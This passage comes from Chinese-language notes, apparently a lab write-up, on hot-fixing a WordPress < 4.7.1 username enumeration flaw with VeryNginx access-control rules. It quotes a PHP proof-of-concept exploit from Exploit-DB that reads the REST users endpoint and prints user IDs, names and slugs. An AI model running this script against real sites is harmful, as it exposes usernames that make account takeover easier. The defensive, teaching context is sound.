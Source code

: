       ![](img/whitelist.png)

   4. 在不升级Wordpress版本的情况下，通过定制[VeryNginx](https://github.com/alexazhou/VeryNginx)的访问控制策略规则，热修复[WordPress < 4.7.1 - Username Enumeration](https://www.exploit-db.com/exploits/41497/)

      ```php
      #!usr/bin/php
      <?php
      
      #Author: Mateus a.k.a Dctor
      #fb: fb.com/hatbashbr/
      #E-mail: dctoralves@protonmail.ch
      #Site: https://mateuslino.tk 
      header ('Content-type: text/html; charset=UTF-8');
      
      
      $url= "http://localhost/";
      $payload="wp-json/wp/v2/users/";
      $urli = file_get_contents($url.$payload);
      $json = json_decode($urli, true);
      if($json){
      	echo "*-----------------------------*\n";
      foreach($json as $users){
      	echo "[*] ID :  |" .$users['id']     ."|\n";
      	echo "[*] Name: |" .$users['name']   ."|\n";
      	echo "[*] User :|" .$users['slug']   ."|\n";
      	echo "\n";
      }echo "*-----------------------------*";} 
      else{echo "[*] No user";}
      